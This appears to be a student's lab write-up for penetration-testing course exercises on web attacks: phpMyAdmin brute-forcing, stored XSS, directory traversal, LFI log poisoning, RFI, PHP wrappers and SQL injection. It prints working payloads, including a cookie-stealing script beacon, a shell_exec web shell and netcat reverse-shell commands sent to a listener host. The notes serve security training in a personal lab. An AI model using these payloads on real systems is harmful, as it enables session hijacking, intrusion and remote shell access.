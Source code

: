 # 9.5.2. Practice - Exploiting Admin Consoles
#### Exercises

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Use Burp Intruder to gain access to the phpMyAdmin site running on your Windows 10 lab machine.

- We spot a phpmyadmin login portal located at the following URL `http://192.168.231.10/phpmyadmin/`
- In order to brute-force the login we must first capture the request in Burp Suite
![[burp_capture.png]]
- we then must set the correct payload variables and set the attack type to "Pitchforkl"![[pitchfork_brute.png]]
- Finally, we setup the payloads via the "Grep Extract" section in Intruder, capturing the response ![[grep_response.png]]
-  Once these steps are complete we can bruteforce the password 
![[Successful_bruteforce.png]]


2.  Insert a new user into the "users" table.
- Once logged in, creating a user is fairly simple. Start with navigating to the "User Accounts" tab
- Click the "Create New User" button
![[admin_user_add.png]]

# 9.6.6 Practice - XSS
#### Exercises

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Exploit the XSS vulnerability in the sample application to get the admin cookie and hijack the session. Remember to use the PowerShell script on your Windows 10 lab machine to simulate the admin login.
- First must craft an XSS that was successfully steal the cookie of an administrator. We will setup a listener on port 80 and use the following snippet:
 `<script>new Image().src="http://IP.ADDRESS/cool.jpg?output="+document.cookie;</script>`
-  We then input this into the "Comments" section of the web form.
![[xss_document_cookie.png]]
- To test the validity of the XSS we then run the powershell script on the Windows machine
- We can see that the cookie was set to our listener, enabling us to adjust our cookie and hijack the admin's session
![[cookie_steal.png]]
![[session_hijack.png]]
2.  Consider what other ways an XSS vulnerability in this application might be used for attacks.
As this is a stored XSS there are numerous possible ways to exploit this XSS which would have severe implications on the server and its user's. Examples could include anything from defacing the web application to account compromise.

3.  Does this exploit attack the server or clients of the site?
As this is a stored XSS the server is on the recieving end. That being said, any user who visits the page is suseptable to attack.

# 9.7.2 Directory Traversal Vulnerabilities

## Practice - Directory Traversal Vulnerabilities

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Exploit the directory traversal vulnerability to read arbitrary files on your Windows 10 lab machine.

This exploit only requires us to visit the following url:
`http://192.168.231.10/menu.php?file=current_menu.php`

From there we can edit the field after `menu.php?file=` to any file we wish to read, for example:
`http://192.168.231.10/menu.php?file=c:\windows\system32\drivers\etc\hosts`

# 9.8.5 LFI Code Execution

#### Exercises

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Obtain code execution through the use of the LFI attack.
- First, we make a malicious request to the server, injecting a PHP function into the log file that will execute the OS command
`<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>`
(note the `<pre>` tag meaning the line will be saved in its preformatted state, ignore breaks and spaces)

Here we can see the command being injected into this log file.
![[log_poisoning.png]]
- We then simply navigate to the vulnerable log file and call our newly injected function
`http://192.168.231.10/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig`
![[lfi_log_ipconfig.png]]
2.  Use the code execution to obtain a full shell.
We can simply alter our URL to execute the following command:
`nc -e cmd.exe 192.168.119.231 9001`
After encoding, the full URL would resemble the following:
`http://192.168.231.10/menu.php?file=c:\xampp\apache\logs\access.log&cmd=nc%20-e%20cmd.exe%20192.168.119.231%209001`
![[log_lfi_revshell.png]]

# 9.8.7 Remote File Inclusion (RFI)

## Practice - Remote File Inclusion (RFI)

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Exploit the RFI vulnerability in the web application and get a shell.
We start by creating a malicious script to be hosted on our local machine
![[rfi_malicious_file.png]]
We then setup a python server to serve this malicious file.
2.  Using /menu2.php?file=current_menu as a starting point, use RFI to get a shell.
From there we request this malicious file via the URL of the vulnerable web application 
![[lfi_whoami.png]]

3.  Use one of the webshells i
We can build on this by instead of issuing the command "whoami" we supply a url encoded reverse shell.
![[rfi_revshell.png]]

# 9.8.10 PHP wrappers
## Practice - PHP Wrappers

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Exploit the LFI vulnerability using a PHP wrapper.
We simply append the php wrapper `file=data:text/plain,hello world` to the end of our url:
`http://192.168.231.10/menu.php?file=data:text/plain,hello%20world`

2.  Use a PHP wrapper to get a shell on your Windows 10 lab machine.
For this we replace the "hello world" at the end of our previous URL with a php script designed to execute code, we also place a reverse shell as our payload for the shell_exec to execute.
`<?php echo shell_exec("nc -e cmd.exe 192.168.119.231 9001") ?>`
![[shell_exec_revshell.png]]


# 9.9.4 SQL Injection - Authentication Bypass
#### Exercises

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Interact with the MariaDB database and manually execute the commands required to authenticate to the application. Understand the vulnerability.
We can see that the malicious query is returning all user data, indicating that one of the "OR" arguments was satisfied. 
![[mariadb_query.png]]

2.  SQL inject the username field to bypass the login process.
A fairly similar username of "tom ' OR 1=1;#'" will bypass the login functionality.
![[username_sqli.png]]
3.  Why is the username displayed like it is in the web application once the authentication process is bypassed?
Because the web application is coded to reflect the entered username back to the user.
4.  Execute the SQL injection in the password field. Is the "LIMIT 1" necessary in the payload? Why or why not?
The limit arguement is used to specify the maximum amount of rows that will be returned. As this web application is using code that expects a single record to be returned we must use "LIMIT 1" in order to avoid errors.

# 9.9.9 Extracting Data
## Practice - Extracting Data from the Database

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Enumerate the structure of the database using SQL injection.
We can enumerate the number of columns through trial and error vi
![[Pasted image 20220620165113.png]]

2.  Understand how and why you can pull data from your injected commands and have it displayed on the screen.


3.  Extract all users and associated passwords from the database.